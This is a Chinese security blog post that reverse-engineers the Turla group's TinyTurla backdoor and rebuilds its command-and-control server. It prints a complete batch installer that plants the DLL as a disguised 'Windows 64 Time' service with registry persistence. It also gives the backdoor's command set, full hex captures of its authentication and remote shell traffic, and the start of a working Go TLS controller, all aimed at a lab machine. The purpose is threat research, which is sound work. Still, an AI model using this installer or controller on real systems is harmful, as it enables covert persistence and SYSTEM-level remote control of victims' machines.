

# 逆向开发 Turla 组织 TinyTurla 后门控制端 - 先知社区

逆向开发 Turla 组织 TinyTurla 后门控制端

- - -

## 概述

时间过得真快，转眼间新年就过完了，又要开始打工了......于是，打开电脑一看，电脑上累积的威胁情报已经近千条了，这...根本就看不完啊--.--还是慢慢啃吧......

在浏览网络中威胁情报信息的时候，笔者发现思科 Talos 团队于 2024 年 2 月 15 日发布了一篇《TinyTurla Next Generation - Turla APT spies on Polish NGOs》（ [https://blog.talosintelligence.com/tinyturla-next-generation/](https://blog.talosintelligence.com/tinyturla-next-generation/) ）报告，报告中对 Turla 组织使用的新后门（TinyTurla-NG）进行了介绍，根据报告中的描述，新后门的同源对比依据来自于其编码风格和功能与之前披露的 Turla 组织的 TinyTurla 后门类似。

因此，笔者又进一步对 TinyTurla 后门进行了资料查阅，发现 TinyTurla 后门的介绍来自于思科 Talos 团队于 2021 年 9 月 21 日发布的《TinyTurla - Turla deploys new malware to keep a secret backdoor on victim machines》（ [https://blog.talosintelligence.com/tinyturla/](https://blog.talosintelligence.com/tinyturla/) ）报告。为了能够对此系列后门进行详细的研究学习，笔者准备先从 TinyTurla 后门入手，并从如下角度开展研究工作：

-   由于 TinyTurla 后门是以服务 DLL 的形式出现的，因此先尝试对 TinyTurla 后门的运行场景进行复现；
-   对 TinyTurla 后门开展逆向分析工作，对其运行原理、远控指令、通信行为、通信模型进行详细剖析梳理；
-   尝试构建 TinyTurla 后门控制端，模拟复现 TinyTurla 后门的远程控制行为及恶意流量。

相关报告截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220233347-708eabbc-d005-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220233402-79331a78-d005-1.png)

## TinyTurla 后门控制端效果

通过构建 TinyTurla 后门控制端程序，我们可模拟实现 TinyTurla 后门的使用场景，相关截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220233423-85b7dd42-d005-1.png)

通信过程中产生的 TLS 加密通信数据包截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220233436-8d8a3204-d005-1.png)

相关操作命令如下：

```plain
F:\GolandProjects\awesomeProject3>awesomeProject3.exe
*******************Server->Client*******************
GET / HTTP/1.1
Connection: Keep-Alive
Title: e6fab264-6650-45e4-aab1-faa484856338
Host: 192.168.153.1:9090


请选择需执行的功能:exit、help、auth、execute_process、shell
>help
********支持功能如下********
auth：身份验证
execute_process：执行程序
shell：执行 shell 命令
**************************
*******************Server->Client*******************
GET / HTTP/1.1
Connection: Keep-Alive
Title: e6fab264-6650-45e4-aab1-faa484856338
Host: 192.168.153.1:9090


请选择需执行的功能:exit、help、auth、execute_process、shell
>auth
*******************Client->Server*******************
HTTP/1.1 200 OK
Title: 11

 p a s s
*******************Server->Client*******************
POST / HTTP/1.1
Connection: Keep-Alive
Title: e6fab264-6650-45e4-aab1-faa484856338
Content-Length: 2
Host: 192.168.153.1:9090


认证成功
*******************Client->Server*******************
HTTP/1.1 200 OK
Title: 0


*******************Server->Client*******************
GET / HTTP/1.1
Connection: Keep-Alive
Title: e6fab264-6650-45e4-aab1-faa484856338
Host: 192.168.153.1:9090


请选择需执行的功能:exit、help、auth、execute_process、shell
>shell
shell 指令 - 请输入需执行的命令：
>ipconfig
*******************Client->Server*******************
HTTP/1.1 200 OK
Title: 19

i p c o n f i g
*******************Server->Client*******************
POST / HTTP/1.1
Connection: Keep-Alive
Title: e6fab264-6650-45e4-aab1-faa484856338
Content-Length: 747
Host: 192.168.153.1:9090



Windows IP 配置


以太网适配器 Bluetooth 网络连接：

   媒体状态  . . . . . . . . . . . . : 媒体已断开
   连接特定的 DNS 后缀 . . . . . . . :

以太网适配器 本地连接：

   连接特定的 DNS 后缀 . . . . . . . : localdomain
   本地链接 IPv6 地址。. . . . . . . : fe80::5c38:ccd5:e424:fdfc%11
   IPv4 地址 . . . . . . . . . . . . : 192.168.153.130
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关。. . . . . . . . . . . . :

隧道适配器 isatap.{8B288427-3826-4FFD-BF89-490C950BBA8A}:

   媒体状态  . . . . . . . . . . . . : 媒体已断开
   连接特定的 DNS 后缀 . . . . . . . :

隧道适配器 isatap.localdomain:

   媒体状态  . . . . . . . . . . . . : 媒体已断开
   连接特定的 DNS 后缀 . . . . . . . : localdomain

*******************Client->Server*******************
HTTP/1.1 200 OK
Title: 0


*******************Server->Client*******************
GET / HTTP/1.1
Connection: Keep-Alive
Title: e6fab264-6650-45e4-aab1-faa484856338
Host: 192.168.153.1:9090


请选择需执行的功能:exit、help、auth、execute_process、shell
>shell
shell 指令 - 请输入需执行的命令：
>whoami
*******************Client->Server*******************
HTTP/1.1 200 OK
Title: 15

w h o a m i
*******************Server->Client*******************
POST / HTTP/1.1
Connection: Keep-Alive
Title: e6fab264-6650-45e4-aab1-faa484856338
Content-Length: 23
Host: 192.168.153.1:9090


 nt authority\system

*******************Client->Server*******************
HTTP/1.1 200 OK
Title: 0


*******************Server->Client*******************
GET / HTTP/1.1
Connection: Keep-Alive
Title: e6fab264-6650-45e4-aab1-faa484856338
Host: 192.168.153.1:9090


请选择需执行的功能:exit、help、auth、execute_process、shell
>execute_process
execute_process 指令 - 请输入需执行的程序路径：
>calc
*******************Client->Server*******************
HTTP/1.1 200 OK
Title: 11

c a l c
*******************Server->Client*******************
POST / HTTP/1.1
Connection: Keep-Alive
Title: e6fab264-6650-45e4-aab1-faa484856338
Content-Length: 2
Host: 192.168.153.1:9090


*******************Client->Server*******************
HTTP/1.1 200 OK
Title: 0


*******************Server->Client*******************
GET / HTTP/1.1
Connection: Keep-Alive
Title: e6fab264-6650-45e4-aab1-faa484856338
Host: 192.168.153.1:9090


请选择需执行的功能:exit、help、auth、execute_process、shell
>exit

F:\GolandProjects\awesomeProject3>
```

## 后门运行场景复现

根据报告中的描述，TinyTurla 后门主要以名为 w64time.dll 的服务 DLL 的形式出现，通过将 DLL 伪装为 W64Time 服务实现恶意驻留。通过分析，发现在系统 C:\\Windows\\System32 目录中，存在正常的 w32time.dll 服务 DLL，但不存在 w64time.dll 服务 DLL。

进一步分析，发现攻击者主要通过.bat 文件来实现后门的安装，相关截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220233501-9c6c2ffc-d005-1.png)

为了能够有效复现后门运行场景，笔者对截图中的.bat 文件内容进行了提取，重新构建了用于安装后门的.bat 文件内容：

-   Hosts：外联 C&C、外联端口
-   Security：用于上线认证的校验密码
-   TimeLong：尝试访问 C&C 的间隔时间
-   TimeShort：成功建立连接后的内部远控命令的 while 循环间隔时间

相关内容如下：

```plain
copy "w64time.dll" %systemroot%\system32\

sc create W64Time binPath= "c:\Windows\System32\svchost.exe -k TimeService" type= share start= auto
sc config W64Time DisplayName= "Windows 64 Time"
sc description W64Time "Maintain date and time synch on all clients and services in the network"

reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Svchost" /v TimeService /t REG_MULTI_SZ /d "W64Time" /f
reg add "HKLM\SYSTEM\CurrentControlSet\Services\W64Time\Parameters" /v ServiceDll /t REG_EXPAND_SZ /d "%systemroot%\system32\w64time.dll" /f

reg add "HKLM\SYSTEM\CurrentControlSet\services\W64Time\Parameters" /v Hosts /t REG_SZ /d "192.168.153.1 9090" /f
reg add "HKLM\SYSTEM\CurrentControlSet\services\W64Time\Parameters" /v Security /t REG_SZ /d "pass" /f
reg add "HKLM\SYSTEM\CurrentControlSet\services\W64Time\Parameters" /v TimeLong /t REG_DWORD /d 5000 /f
reg add "HKLM\SYSTEM\CurrentControlSet\services\W64Time\Parameters" /v TimeShort /t REG_DWORD /d 5000 /f

sc start W64Time
```

.bat 文件执行效果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220233524-aa2ee120-d005-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220233541-b496bb38-d005-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220233600-bfbd7588-d005-1.png)

## 后门通信模型分析

对 TinyTurla 后门进行逆向分析，发现此样本的功能比较简单，大致运行逻辑如下：

-   从注册表中提取配置信息，用于后续功能调用；
-   TinyTurla 后门使用 WinHttp API 建立 TLS 通信；
-   TinyTurla 后门发起 GET 请求，主要用于上线认证，请求头中带有 Title 字段，Title 字段内容为电脑 MachineGuid 值；
-   控制端对 GET 请求进行响应，响应指令为 0x00，响应数据内容为用于上线认证的校验密码；
-   TinyTurla 后门发起 POST 请求，主要用于对上线认证的结果进行反馈；
-   开始内部远控命令的 while 循环
    -   TinyTurla 后门发起 GET 请求，请求远控指令；
    -   控制端返回远控指令及远控指令内容；
    -   TinyTurla 后门发起 POST 请求，对远控指令执行结果进行反馈；

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220233621-cc079986-d005-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220233643-d9a14204-d005-1.png)

### 远控指令

TinyTurla 后门支持的远控指令梳理如下：

| 指令  | 功能  |
| --- | --- |
| 0x00 | 身份验证 |
| 0x01 | 执行程序 |
| 0x02 | 执行 shell 命令 |
| 0x03 | 下载文件 |
| 0x04 | 上传文件 |
| 0x05 | 创建子进程 |
| 0x06 | 关闭子进程 |
| 0x07 | 子进程管道输入/输出 |
| 0x08 | 修改注册表中的 TimeLong 配置 |
| 0x09 | 修改注册表中的 TimeShort 配置 |
| 0xA | 修改注册表中的 Security 配置 |
| 0xB | 修改注册表中的 Hosts 配置 |

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220233704-e5fa97e4-d005-1.png)

### 关键通信代码解读

通过分析，发现 TinyTurla 后门使用 WinHttp API 建立网络通信，在建立网络通信的过程中，通过对 WinHttpOpenRequest、WinHttpSetOption 等函数进行调用，以实现 TLS 通信的建立，详细情况如下：

-   WinHttpOpenRequest 函数的最后一个参数用于控制请求的行为，WINHTTP\_FLAG\_SECURE 请求标志表示启用 SSL/TLS 协议；
-   WinHttpSetOption 函数的第二个参数用于指定要设置的选项类型，第三个参数用于指向包含选项值的缓冲区指针；WINHTTP\_OPTION\_SECURITY\_FLAGS 标志表示设置安全选项，缓冲区值 0x3300 表示 SECURITY\_FLAG\_IGNORE\_CERT\_DATE\_INVALID | SECURITY\_FLAG\_IGNORE\_CERT\_CN\_INVALID | SECURITY\_FLAG\_IGNORE\_UNKNOWN\_CA | SECURITY\_FLAG\_IGNORE\_WRONG\_USAGE 值；
-   SECURITY\_FLAG\_IGNORE\_CERT\_DATE\_INVALID 表示忽略证书的有效期错误；SECURITY\_FLAG\_IGNORE\_CERT\_CN\_INVALID 表示忽略证书的名称无效错误；SECURITY\_FLAG\_IGNORE\_UNKNOWN\_CA 表示忽略未知颁发机构错误；SECURITY\_FLAG\_IGNORE\_WRONG\_USAGE 表示忽略证书的错误用途错误。

**备注：若在调试过程中，想让 TinyTurla 后门直接以 HTTP 协议进行通信，可将 WinHttpOpenRequest 最后一个参数赋值为 0，将 WinHttpSetOption 函数 NOP 掉即可。**

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220233726-f30451aa-d005-1.png)

此外，通过分析，笔者还发现 TinyTurla 后门在通信过程中，控制端返回的数据为 Unicode 编码，每次接收数据后，TinyTurla 后门均会对 Unicode 编码数据进行校验，相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220233742-fc7747ba-d005-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220233757-05797270-d006-1.png)

### 上线认证

梳理样本上线认证过程如下：

-   TinyTurla 后门发起 GET 请求，请求头中带有 Title 字段，Title 字段内容为电脑 MachineGuid 值；
-   控制端对 GET 请求进行响应，响应指令为 0x00，响应数据内容为用于上线认证的校验密码（此密码与注册表中的 Security 值一致）；
-   TinyTurla 后门发起 POST 请求，用于对上线认证的结果进行反馈，若载荷数据为 0000，则表示认证成功；
-   控制端对 POST 请求进行响应；

详细情况如下：

```plain
#**********TinyTurla 后门 -> TinyTurla 后门控制端**********
#十六进制形式：
474554202f20485454502f312e310d0a436f6e6e656374696f6e3a204b6565702d416c6976650d0a5469746c653a2065366661623236342d363635302d343565342d616162312d6661613438343835363333380d0a486f73743a203139322e3136382e3135332e313a393039300d0a0d0a      #请求头

00000000  47 45 54 20 2f 20 48 54  54 50 2f 31 2e 31 0d 0a   GET / HT TP/1.1..
00000010  43 6f 6e 6e 65 63 74 69  6f 6e 3a 20 4b 65 65 70   Connecti on: Keep
00000020  2d 41 6c 69 76 65 0d 0a  54 69 74 6c 65 3a 20 65   -Alive.. Title: e
00000030  36 66 61 62 32 36 34 2d  36 36 35 30 2d 34 35 65   6fab264- 6650-45e
00000040  34 2d 61 61 62 31 2d 66  61 61 34 38 34 38 35 36   4-aab1-f aa484856
00000050  33 33 38 0d 0a 48 6f 73  74 3a 20 31 39 32 2e 31   338..Hos t: 192.1
00000060  36 38 2e 31 35 33 2e 31  3a 39 30 39 30 0d 0a 0d   68.153.1 :9090...
00000070  0a                                                 .
#字符串形式：
GET / HTTP/1.1                             
Connection: Keep-Alive                     
Title: e6fab264-xxxx-xxxx-xxxx-faa484856338
Host: 192.168.153.1:9090   

#**********TinyTurla 后门控制端 -> TinyTurla 后门**********
#十六进制形式：
485454502f312e3120323030204f4b0d0a5469746c653a2031310d0a0d0a    #请求头
00                      #载荷数据 - 远控指令
70006100730073000000    #载荷数据 - 指令内容（Unicode 编码）

00000000  48 54 54 50 2f 31 2e 31  20 32 30 30 20 4f 4b 0d   HTTP/1.1  200 OK.
00000010  0a 54 69 74 6c 65 3a 20  31 31 0d 0a 0d 0a 00 70   .Title:  11.....p
00000020  00 61 00 73 00 73 00 00  00                        .a.s.s.. .
#字符串形式：
HTTP/1.1 200 OK
Title: 11

pass
#**********TinyTurla 后门 -> TinyTurla 后门控制端**********
#十六进制形式：
504f5354202f20485454502f312e310d0a436f6e6e656374696f6e3a204b6565702d416c6976650d0a5469746c653a2065366661623236342d363635302d343565342d616162312d6661613438343835363333380d0a436f6e74656e742d4c656e6774683a20320d0a486f73743a203139322e3136382e3135332e313a393039300d0a0d0a  #请求头
0000    #载荷数据 -0000 代表认证成功

00000000  50 4f 53 54 20 2f 20 48  54 54 50 2f 31 2e 31 0d   POST / H TTP/1.1.
00000010  0a 43 6f 6e 6e 65 63 74  69 6f 6e 3a 20 4b 65 65   .Connect ion: Kee
00000020  70 2d 41 6c 69 76 65 0d  0a 54 69 74 6c 65 3a 20   p-Alive. .Title: 
00000030  65 36 66 61 62 32 36 34  2d 36 36 35 30 2d 34 35   e6fab264 -6650-45
00000040  65 34 2d 61 61 62 31 2d  66 61 61 34 38 34 38 35   e4-aab1- faa48485
00000050  36 33 33 38 0d 0a 43 6f  6e 74 65 6e 74 2d 4c 65   6338..Co ntent-Le
00000060  6e 67 74 68 3a 20 32 0d  0a 48 6f 73 74 3a 20 31   ngth: 2. .Host: 1
00000070  39 32 2e 31 36 38 2e 31  35 33 2e 31 3a 39 30 39   92.168.1 53.1:909
00000080  30 0d 0a 0d 0a                                     0....
00000085  00 00                                              ..
#字符串形式：
POST / HTTP/1.1
Connection: Keep-Alive
Title: e6fab264-6650-45e4-aab1-faa484856338
Content-Length: 2
Host: 192.168.153.1:9090

#**********TinyTurla 后门控制端 -> TinyTurla 后门**********
#十六进制形式：
485454502f312e3120323030204f4b0d0a5469746c653a20300d0a0d0a  #请求头

00000000  48 54 54 50 2f 31 2e 31  20 32 30 30 20 4f 4b 0d   HTTP/1.1  200 OK.
00000010  0a 54 69 74 6c 65 3a 20  30 0d 0a 0d 0a            .Title:  0....
#字符串形式：
HTTP/1.1 200 OK
Title: 0
```

### 远控功能

梳理样本上线认证过程如下：

-   开始内部远控命令的 while 循环
-   TinyTurla 后门发起 GET 请求，请求远控指令；
-   控制端返回远控指令及远控指令内容；
-   TinyTurla 后门发起 POST 请求，对远控指令执行结果进行反馈；

详细情况如下：

```plain
#**********TinyTurla 后门 -> TinyTurla 后门控制端**********
#十六进制形式：
474554202f20485454502f312e310d0a436f6e6e656374696f6e3a204b6565702d416c6976650d0a5469746c653a2065366661623236342d363635302d343565342d616162312d6661613438343835363333380d0a486f73743a203139322e3136382e3135332e313a393039300d0a0d0a      #请求头

00000000  47 45 54 20 2f 20 48 54  54 50 2f 31 2e 31 0d 0a   GET / HT TP/1.1..
00000010  43 6f 6e 6e 65 63 74 69  6f 6e 3a 20 4b 65 65 70   Connecti on: Keep
00000020  2d 41 6c 69 76 65 0d 0a  54 69 74 6c 65 3a 20 65   -Alive.. Title: e
00000030  36 66 61 62 32 36 34 2d  36 36 35 30 2d 34 35 65   6fab264- 6650-45e
00000040  34 2d 61 61 62 31 2d 66  61 61 34 38 34 38 35 36   4-aab1-f aa484856
00000050  33 33 38 0d 0a 48 6f 73  74 3a 20 31 39 32 2e 31   338..Hos t: 192.1
00000060  36 38 2e 31 35 33 2e 31  3a 39 30 39 30 0d 0a 0d   68.153.1 :9090...
00000070  0a                                                 .
#字符串形式：
GET / HTTP/1.1
Connection: Keep-Alive
Title: e6fab264-6650-45e4-aab1-faa484856338
Host: 192.168.153.1:9090

#**********TinyTurla 后门控制端 -> TinyTurla 后门**********
#十六进制形式：
485454502f312e3120323030204f4b0d0a5469746c653a2032310d0a0d0a    #请求头
02                                          #载荷数据 - 远控指令
6900700063006f006e0066006900670020000000    #载荷数据 - 指令内容（Unicode 编码）

00000000  48 54 54 50 2f 31 2e 31  20 32 30 30 20 4f 4b 0d   HTTP/1.1  200 OK.
00000010  0a 54 69 74 6c 65 3a 20  32 31 0d 0a 0d 0a 02 69   .Title:  21.....i
00000020  00 70 00 63 00 6f 00 6e  00 66 00 69 00 67 00 20   .p.c.o.n .f.i.g. 
00000030  00 00 00                                           ...
#字符串形式：
HTTP/1.1 200 OK
Title: 21

.i.p.c.o.n.f.i.g. ...
#**********TinyTurla 后门 -> TinyTurla 后门控制端**********
#十六进制形式：
504f5354202f20485454502f312e310d0a436f6e6e656374696f6e3a204b6565702d416c6976650d0a5469746c653a2065366661623236342d363635302d343565342d616162312d6661613438343835363333380d0a436f6e74656e742d4c656e6774683a203734370d0a486f73743a203139322e3136382e3135332e313a393039300d0a0d0a  #请求头
02000d0a57696e646f777320495020c5e4d6c30d0a0d0a0d0ad2d4ccabcdf8cacac5e4c6f720426c7565746f6f746820cdf8c2e7c1acbdd33a0d0a0d0a202020c3bdcce5d7b4ccac20202e202e202e202e202e202e202e202e202e202e202e202e203a20c3bdcce5d2d1b6cfbfaa0d0a202020c1acbdd3ccd8b6a8b5c420444e5320baf3d7ba202e202e202e202e202e202e202e203a200d0a0d0ad2d4ccabcdf8cacac5e4c6f720b1beb5d8c1acbdd33a0d0a0d0a202020c1acbdd3ccd8b6a8b5c420444e5320baf3d7ba202e202e202e202e202e202e202e203a206c6f63616c646f6d61696e0d0a202020b1beb5d8c1b4bdd3204950763620b5d8d6b72e202e202e202e202e202e202e202e203a20666538303a3a356333383a636364353a653432343a666466632531310d0a2020204950763420b5d8d6b7202e202e202e202e202e202e202e202e202e202e202e202e203a203139322e3136382e3135332e3133300d0a202020d7d3cdf8d1dac2eb20202e202e202e202e202e202e202e202e202e202e202e202e203a203235352e3235352e3235352e300d0a202020c4acc8cfcdf8b9d82e202e202e202e202e202e202e202e202e202e202e202e202e203a200d0a0d0acbedb5c0cacac5e4c6f7206973617461702e7b38423238383432372d333832362d344646442d424638392d3439304339353042424138417d3a0d0a0d0a202020c3bdcce5d7b4ccac20202e202e202e202e202e202e202e202e202e202e202e202e203a20c3bdcce5d2d1b6cfbfaa0d0a202020c1acbdd3ccd8b6a8b5c420444e5320baf3d7ba202e202e202e202e202e202e202e203a200d0a0d0acbedb5c0cacac5e4c6f7206973617461702e6c6f63616c646f6d61696e3a0d0a0d0a202020c3bdcce5d7b4ccac20202e202e202e202e202e202e202e202e202e202e202e202e203a20c3bdcce5d2d1b6cfbfaa0d0a202020c1acbdd3ccd8b6a8b5c420444e5320baf3d7ba202e202e202e202e202e202e202e203a206c6f63616c646f6d61696e0d0a  #载荷数据

00000000  50 4f 53 54 20 2f 20 48  54 54 50 2f 31 2e 31 0d   POST / H TTP/1.1.
00000010  0a 43 6f 6e 6e 65 63 74  69 6f 6e 3a 20 4b 65 65   .Connect ion: Kee
00000020  70 2d 41 6c 69 76 65 0d  0a 54 69 74 6c 65 3a 20   p-Alive. .Title: 
00000030  65 36 66 61 62 32 36 34  2d 36 36 35 30 2d 34 35   e6fab264 -6650-45
00000040  65 34 2d 61 61 62 31 2d  66 61 61 34 38 34 38 35   e4-aab1- faa48485
00000050  36 33 33 38 0d 0a 43 6f  6e 74 65 6e 74 2d 4c 65   6338..Co ntent-Le
00000060  6e 67 74 68 3a 20 37 34  37 0d 0a 48 6f 73 74 3a   ngth: 74 7..Host:
00000070  20 31 39 32 2e 31 36 38  2e 31 35 33 2e 31 3a 39    192.168 .153.1:9
00000080  30 39 30 0d 0a 0d 0a                               090....
00000087  02 00 0d 0a 57 69 6e 64  6f 77 73 20 49 50 20 c5   ....Wind ows IP .
00000097  e4 d6 c3 0d 0a 0d 0a 0d  0a d2 d4 cc ab cd f8 ca   ........ ........
000000A7  ca c5 e4 c6 f7 20 42 6c  75 65 74 6f 6f 74 68 20   ..... Bl uetooth 
000000B7  cd f8 c2 e7 c1 ac bd d3  3a 0d 0a 0d 0a 20 20 20   ........ :....   
000000C7  c3 bd cc e5 d7 b4 cc ac  20 20 2e 20 2e 20 2e 20   ........   . . . 
000000D7  2e 20 2e 20 2e 20 2e 20  2e 20 2e 20 2e 20 2e 20   . . . .  . . . . 
000000E7  2e 20 3a 20 c3 bd cc e5  d2 d1 b6 cf bf aa 0d 0a   . : .... ........
000000F7  20 20 20 c1 ac bd d3 cc  d8 b6 a8 b5 c4 20 44 4e      ..... ..... DN
00000107  53 20 ba f3 d7 ba 20 2e  20 2e 20 2e 20 2e 20 2e   S .... .  . . . .
00000117  20 2e 20 2e 20 3a 20 0d  0a 0d 0a d2 d4 cc ab cd    . . : . ........
00000127  f8 ca ca c5 e4 c6 f7 20  b1 be b5 d8 c1 ac bd d3   .......  ........
00000137  3a 0d 0a 0d 0a 20 20 20  c1 ac bd d3 cc d8 b6 a8   :....    ........
00000147  b5 c4 20 44 4e 53 20 ba  f3 d7 ba 20 2e 20 2e 20   .. DNS . ... . . 
00000157  2e 20 2e 20 2e 20 2e 20  2e 20 3a 20 6c 6f 63 61   . . . .  . : loca
00000167  6c 64 6f 6d 61 69 6e 0d  0a 20 20 20 b1 be b5 d8   ldomain. .   ....
00000177  c1 b4 bd d3 20 49 50 76  36 20 b5 d8 d6 b7 2e 20   .... IPv 6 ..... 
00000187  2e 20 2e 20 2e 20 2e 20  2e 20 2e 20 2e 20 3a 20   . . . .  . . . : 
00000197  66 65 38 30 3a 3a 35 63  33 38 3a 63 63 64 35 3a   fe80::5c 38:ccd5:
000001A7  65 34 32 34 3a 66 64 66  63 25 31 31 0d 0a 20 20   e424:fdf c%11..  
000001B7  20 49 50 76 34 20 b5 d8  d6 b7 20 2e 20 2e 20 2e    IPv4 .. .. . . .
000001C7  20 2e 20 2e 20 2e 20 2e  20 2e 20 2e 20 2e 20 2e    . . . .  . . . .
000001D7  20 2e 20 3a 20 31 39 32  2e 31 36 38 2e 31 35 33    . : 192 .168.153
000001E7  2e 31 33 30 0d 0a 20 20  20 d7 d3 cd f8 d1 da c2   .130..    .......
000001F7  eb 20 20 2e 20 2e 20 2e  20 2e 20 2e 20 2e 20 2e   .  . . .  . . . .
00000207  20 2e 20 2e 20 2e 20 2e  20 2e 20 3a 20 32 35 35    . . . .  . : 255
00000217  2e 32 35 35 2e 32 35 35  2e 30 0d 0a 20 20 20 c4   .255.255 .0..   .
00000227  ac c8 cf cd f8 b9 d8 2e  20 2e 20 2e 20 2e 20 2e   ........  . . . .
00000237  20 2e 20 2e 20 2e 20 2e  20 2e 20 2e 20 2e 20 2e    . . . .  . . . .
00000247  20 3a 20 0d 0a 0d 0a cb  ed b5 c0 ca ca c5 e4 c6    : ..... ........
00000257  f7 20 69 73 61 74 61 70  2e 7b 38 42 32 38 38 34   . isatap .{8B2884
00000267  32 37 2d 33 38 32 36 2d  34 46 46 44 2d 42 46 38   27-3826- 4FFD-BF8
00000277  39 2d 34 39 30 43 39 35  30 42 42 41 38 41 7d 3a   9-490C95 0BBA8A}:
00000287  0d 0a 0d 0a 20 20 20 c3  bd cc e5 d7 b4 cc ac 20   ....   . ....... 
00000297  20 2e 20 2e 20 2e 20 2e  20 2e 20 2e 20 2e 20 2e    . . . .  . . . .
000002A7  20 2e 20 2e 20 2e 20 2e  20 3a 20 c3 bd cc e5 d2    . . . .  : .....
000002B7  d1 b6 cf bf aa 0d 0a 20  20 20 c1 ac bd d3 cc d8   .......    ......
000002C7  b6 a8 b5 c4 20 44 4e 53  20 ba f3 d7 ba 20 2e 20   .... DNS  .... . 
000002D7  2e 20 2e 20 2e 20 2e 20  2e 20 2e 20 3a 20 0d 0a   . . . .  . . : ..
000002E7  0d 0a cb ed b5 c0 ca ca  c5 e4 c6 f7 20 69 73 61   ........ .... isa
000002F7  74 61 70 2e 6c 6f 63 61  6c 64 6f 6d 61 69 6e 3a   tap.loca ldomain:
00000307  0d 0a 0d 0a 20 20 20 c3  bd cc e5 d7 b4 cc ac 20   ....   . ....... 
00000317  20 2e 20 2e 20 2e 20 2e  20 2e 20 2e 20 2e 20 2e    . . . .  . . . .
00000327  20 2e 20 2e 20 2e 20 2e  20 3a 20 c3 bd cc e5 d2    . . . .  : .....
00000337  d1 b6 cf bf aa 0d 0a 20  20 20 c1 ac bd d3 cc d8   .......    ......
00000347  b6 a8 b5 c4 20 44 4e 53  20 ba f3 d7 ba 20 2e 20   .... DNS  .... . 
00000357  2e 20 2e 20 2e 20 2e 20  2e 20 2e 20 3a 20 6c 6f   . . . .  . . : lo
00000367  63 61 6c 64 6f 6d 61 69  6e 0d 0a                  caldomai n..
#字符串形式：
POST / HTTP/1.1
Connection: Keep-Alive
Title: e6fab264-6650-45e4-aab1-faa484856338
Content-Length: 747
Host: 192.168.153.1:9090

Windows IP 配置


以太网适配器 Bluetooth 网络连接：

   媒体状态  . . . . . . . . . . . . : 媒体已断开
   连接特定的 DNS 后缀 . . . . . . . :

以太网适配器 本地连接：

   连接特定的 DNS 后缀 . . . . . . . : localdomain
   本地链接 IPv6 地址。. . . . . . . : fe80::5c38:ccd5:e424:fdfc%11
   IPv4 地址 . . . . . . . . . . . . : 192.168.153.130
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关。. . . . . . . . . . . . :

隧道适配器 isatap.{8B288427-3826-4FFD-BF89-490C950BBA8A}:

   媒体状态  . . . . . . . . . . . . : 媒体已断开
   连接特定的 DNS 后缀 . . . . . . . :

隧道适配器 isatap.localdomain:

   媒体状态  . . . . . . . . . . . . : 媒体已断开
   连接特定的 DNS 后缀 . . . . . . . : localdomain
#**********TinyTurla 后门控制端 -> TinyTurla 后门**********
#十六进制形式：
485454502f312e3120323030204f4b0d0a5469746c653a20300d0a0d0a  #请求头

00000000  48 54 54 50 2f 31 2e 31  20 32 30 30 20 4f 4b 0d   HTTP/1.1  200 OK.
00000010  0a 54 69 74 6c 65 3a 20  30 0d 0a 0d 0a            .Title:  0....
#字符串形式：
HTTP/1.1 200 OK
Title: 0
```

## 模拟构建控制端

在这里，笔者将使用 golang 语言模拟构建 TinyTurla 后门控制端，详细情况如下：

代码结构如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220233823-1535aab2-d006-1.png)

-   main.go

```plain
package main

import (
    "awesomeProject3/common"
    "bufio"
    "crypto/tls"
    "encoding/hex"
    "fmt"
    "log"
    "net"
    "os"
    "strconv"
    "strings"
)

func main() {
    cert, err := tls.LoadX509KeyPair("./conf/server.crt", "./conf/server.key")
    if err != nil {
        log.Println(err)
        return
    }
    // 创建一个 TLS 配置
    tlsConfig := &tls.Config{
        Certificates: []tls.Certificate{cert},
    }

    ln, err := tls.Listen("tcp", ":9090", tlsConfig)
    if err != nil {
        log.Println(err)
        return
    }
    defer ln.Close()
    for {
        conn, err := ln.Accept()
        if err != nil {
            log.Println(err)
            continue
        }
        go handle_TinyTurla_Connection(conn)
    }
}

func handle_TinyTurla_Connection(conn net.Conn) {
    defer conn.Close()

    fmt.Println("*******************Server->Client*******************")
    data_header := common.RecvHeader(conn)
    fmt.Println(string(data_header))

    if strings.Contains(string(data_header), "Content-Length") {
        data_len, _ := strconv.Atoi(strings.ReplaceAll(strings.Split(strings.Split(string(data_header), "Content-Length: ")[1], "Host:")[0], "\r\n", ""))

        data_buf := common.RecvBuf(conn, data_len)
